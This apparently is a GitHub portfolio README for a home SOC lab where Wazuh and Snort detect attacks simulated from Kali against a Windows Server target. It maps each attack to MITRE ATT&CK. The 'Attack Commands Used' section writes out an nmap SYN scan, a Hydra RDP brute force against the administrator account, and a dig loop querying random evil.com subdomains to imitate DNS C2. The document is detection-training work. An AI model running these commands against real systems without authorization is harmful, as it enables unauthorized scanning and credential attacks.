# Network Threat Detection Lab – Wazuh SIEM + Snort IDS + Wireshark + DNS Analysis


---

## Project Overview
This project demonstrates a fully functional Network Threat Detection Lab built on a 
realistic SOC architecture. A dedicated Ubuntu 22.04 server runs Wazuh SIEM and Snort IDS, 
monitoring a Windows Server 2022 target machine. Attacks were simulated from a Kali Linux 
attacker VM across three distinct threat scenarios — generating real security telemetry 
correlated with the MITRE ATT&CK framework.

The lab mirrors enterprise SOC deployments where a dedicated SIEM server receives agent 
telemetry from distributed endpoints, enabling centralized visibility and rapid incident response.

---

## Lab Architecture

| Component | System | IP Address | Role |
|-----------|--------|------------|------|
| Attacker | Kali Linux 2025.2 | 192.168.52.133 | Simulate attacks |
| SIEM / IDS | Ubuntu 22.04 LTS | 192.168.52.142 | Wazuh Manager + Snort IDS |
| Target | Windows Server 2022 | 192.168.52.139 | Victim machine + Wazuh Agent |
| Virtualization | VMware Workstation Pro 17 | Host Machine | Run VMs |

---

## Lab Flow

```
Kali Linux → Attack Simulation → Windows Server 2022 → Wazuh SIEM / Snort IDS → Detection & Investigation
```

---

## Screenshots

### Wazuh Dashboard — Home

*Wazuh dashboard home showing all monitoring modules — Security Information Management, Auditing, Threat Detection, and Regulatory Compliance.*

---

### Wazuh Agent — Windows Server Active

*Windows Server 2022 agent (ID:001) successfully connected and active on Wazuh Manager at 192.168.52.139, running Wazuh v4.7.5.*

---

### Snort IDS — Config Validation

*Snort successfully validated the configuration — all preprocessors loaded and rules engine ready for live detection.*

---

### Snort IDS — Custom Detection Rules

*Three custom rules written in /etc/snort/rules/local.rules covering Nmap SYN scan (SID:1000001), RDP brute force (SID:1000002), and DNS volume (SID:1000003).*

---

### Attack 1 — Nmap Port Scan Detected by Snort

*Snort console showing SID:1000001 "Nmap SYN scan detected" firing repeatedly from 192.168.52.133 → 192.168.52.139 — MITRE ATT&CK T1046.*

---

### Attack 2 — RDP Brute Force Detected by Snort

*Snort console showing SID:1000002 "RDP brute force attempt" and MISC MS Terminal server requests firing on port 3389 — MITRE ATT&CK T1110.001.*

---

### Attack 2 — RDP Brute Force Detected by Wazuh

*Wazuh Security Events showing Rule 60122 (Level 5) logon failures — "Logon failure - Unknown user or bad password" — mapped to MITRE T1078 and T1531.*

---

### Attack 3 — DNS C2 Traffic Captured in Wireshark

*Wireshark PCAP showing 108 DNS packets with queries to malware-c2-*.evil.com — randomized subdomains and high query volume are key IOCs for DNS tunneling.*

---

### MITRE ATT&CK Dashboard

*Wazuh MITRE ATT&CK module showing alert evolution spike during attack phase, top tactics, attacks by technique, and per-agent technique breakdown.*

---

### Wazuh Security Events Overview

*642 total alerts — 5 authentication failures, 68 authentication successes — with alert level spike visible at 03:00 during attack execution.*

---

### Wazuh Final Dashboard

*Wazuh home dashboard showing 1 active agent and all monitoring modules fully operational after lab completion.*

---

## Attacks Simulated

| Attack | Tool | MITRE ATT&CK | Detection |
|--------|------|--------------|-----------|
| Network Port Scan | Nmap | T1046 – Network Service Discovery | Snort SID:1000001 |
| RDP Brute Force | Hydra | T1110.001 – Password Guessing | Snort SID:1000002 + Wazuh Rule 60122 |
| DNS C2 Simulation | dig loop | T1071.004 – Application Layer Protocol: DNS | Wireshark PCAP |

---

## Attack Commands Used

```bash
# Phase 1 — Network Reconnaissance
nmap -sS -T4 192.168.52.139

# Phase 2 — RDP Brute Force
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.52.139 -t 4

# Phase 3 — DNS C2 Simulation
for i in $(seq 1 50); do dig @8.8.8.8 malware-c2-$(cat /dev/urandom | tr -dc a-z | head -c8).evil.com; done

# DNS Packet Capture on Ubuntu SIEM
sudo tcpdump -i ens33 port 53 -w /tmp/dns_capture.pcap
```

---

## Snort Custom Rules

```snort
alert tcp any any -> 192.168.52.139 any (msg:"Nmap SYN scan detected"; flags:S; threshold:type threshold, track by_src, count 20, seconds 3; sid:1000001; rev:1;)

alert tcp any any -> 192.168.52.139 3389 (msg:"RDP brute force attempt"; threshold:type threshold, track by_src, count 5, seconds 10; sid:1000002; rev:1;)

alert udp any any -> any 53 (msg:"Suspicious DNS query volume"; threshold:type threshold, track by_src, count 30, seconds 5; sid:1000003; rev:1;)
```

---

## MITRE ATT&CK Mapping

| Technique ID | Technique Name | Tactic | Tool | Detection |
|---|---|---|---|---|
| T1046 | Network Service Discovery | Discovery | Nmap | Snort SID:1000001 |
| T1110.001 | Brute Force: Password Guessing | Credential Access | Hydra | Snort SID:1000002 + Wazuh Rule 60122 |
| T1071.004 | Application Layer Protocol: DNS | Command & Control | dig loop | Wireshark PCAP |
| T1078 | Valid Accounts | Defense Evasion, Persistence | Hydra | Wazuh Rule 60106 |
| T1531 | Account Access Removal | Impact | Hydra | Wazuh Security Events |

---

## Key Findings

| Finding | Value |
|---------|-------|
| Total Wazuh alerts generated | 642 |
| Authentication failures detected | 5 |
| Authentication successes logged | 68 |
| DNS packets captured | 108 |
| Custom Snort rules triggered | 3 / 3 |
| MITRE ATT&CK techniques mapped | 5 |

---

## Tools Used

| Tool | Version | Purpose |
|------|---------|---------|
| VMware Workstation Pro | 17 | Virtual machine environment |
| Kali Linux | 2025.2 | Attacker machine |
| Ubuntu Server | 22.04 LTS | SIEM / IDS server |
| Windows Server | 2022 | Target machine |
| Wazuh | 4.7.5 | SIEM, HIDS, MITRE ATT&CK mapping |
| Snort | 2.9.15 | Network intrusion detection |
| Wireshark | 3.6.2 | Packet capture and analysis |
| Nmap | — | Network reconnaissance |
| Hydra | — | Brute force simulation |

---

## Author

**Muhammed Anshad V**  
Certified SOC Analyst (CSA v2) – EC-Council  
[LinkedIn](https://linkedin.com/in/muhemmed-a501a0) | [GitHub](https://github.com/anshadshanu)

---

*Part of my SOC Portfolio — [SOC Home Lab](https://github.com/anshadshanu/SOC-Home-Lab) | [Windows Log Analysis](https://github.com/anshadshanu/Windows-Log-Analysis)*
